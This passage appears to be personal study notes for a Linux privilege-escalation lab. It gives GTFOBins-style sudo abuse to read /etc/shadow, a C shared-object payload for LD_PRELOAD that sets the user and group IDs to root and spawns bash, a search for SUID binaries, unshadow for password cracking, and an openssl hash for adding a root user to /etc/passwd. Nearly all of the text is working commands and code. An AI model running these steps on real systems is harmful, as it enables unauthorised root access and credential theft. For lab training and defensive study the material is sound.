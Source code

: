 [https://gtfobins.github.io/](https://gtfobins.github.io/)
command:   
```bash
cat /etc/shadow  # A shadow password file, also known as /etc/shadow, is a system file in Linux that stores encrypted user passwords and is accessible only to the root user, preventing unauthorized users or malicious actors from breaking into the system. 

sudo apache2 -f /etc/shadow  
sudo nmap -interactive  #do not work   
```
### 1-1-6 Leverage LD_PRELOAD 
step 1: Check for LD_PRELOAD (with the env_keep option)  
step 2: Write a simple C code compiled as a share object (.so extension) file  
command:  
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
step 3: Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file  
command:   
```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

### 1-1-7 Privilege Escalation: SUID  
#### step 1, read the /etc/shadow

>[Understanding File Permissions](https://www.elated.com/understanding-permissions/)

command:  [explain](https://chat.openai.com/share/805e4ba0-19e7-4ae2-b118-8004a6cfcecf)
```bash
find / -type f -perm -04000 -ls 2>/dev/null

nano /etc/shadow  
unshadow passwd.txt shadow.txt > passwords.txt
```

#### step 2, adding user to /etc/passwd  
command:  [explain](https://chat.openai.com/share/d80cd0f5-a883-4765-b2fc-0d6efdbaeebb)
```bash
openssl passwd -1 -salt THM password1
```
